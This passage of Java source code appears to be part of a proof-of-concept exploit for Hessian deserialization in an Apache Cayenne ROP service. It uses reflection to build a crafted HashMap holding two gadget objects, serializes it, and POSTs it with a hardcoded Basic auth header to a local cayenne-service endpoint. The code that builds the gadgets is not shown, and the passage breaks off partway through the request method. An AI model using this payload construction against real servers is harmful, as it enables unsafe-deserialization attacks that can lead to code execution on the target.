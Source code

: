 ```plain
        HashMap hashMap = maskmap(u1, u2);


        HessianROPSerializationService serializationService = new HessianROPSerializationService(serializerFactory);
        byte[] serialize = serializationService.serialize(hashMap);
        post(serialize);
//        serializationService.deserialize(serialize, ClientMessage.class);

    }


    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }


    public static HashMap maskmap(Object u1,Object u2) throws Exception{
        HashMap hashMap = new HashMap();
        Class node = Class.forName("java.util.HashMap$Node");
        Constructor constructor = node.getDeclaredConstructor(int.class, Object.class, Object.class, node);
        constructor.setAccessible(true);
        Object node1 = constructor.newInstance(0, u1, null, null);
        Object node2 = constructor.newInstance(0, u2, null, null);
        Field key = node.getDeclaredField("key");
        key.setAccessible(true);
        key.set(node1, u1);
        key.set(node2, u2);
        Field size = HashMap.class.getDeclaredField("size");
        size.setAccessible(true);
        size.set(hashMap, 2);
        Field table = HashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        Object arr = Array.newInstance(node, 2);
        Array.set(arr, 0, node1);
        Array.set(arr, 1, node2);
        table.set(hashMap, arr);

        return hashMap;
    }
    public static void post(byte[] b) throws Exception{
//        Proxy proxy = new Proxy(Proxy.Type.HTTP, new InetSocketAddress("127.0.0.1", 8088));
        URL url=new URL("http://127.0.0.1:8080/cayenne-service");
        HttpURLConnection con = (HttpURLConnection) url.openConnection();
        con.setRequestProperty("Content-Type", "application/hessian");
        con.setRequestProperty("Authorization", "Basic Y2F5ZW5uZS11c2VyOnNlY3JldA==");
        con.setRequestMethod("POST");
        con.setDoOutput(true);
```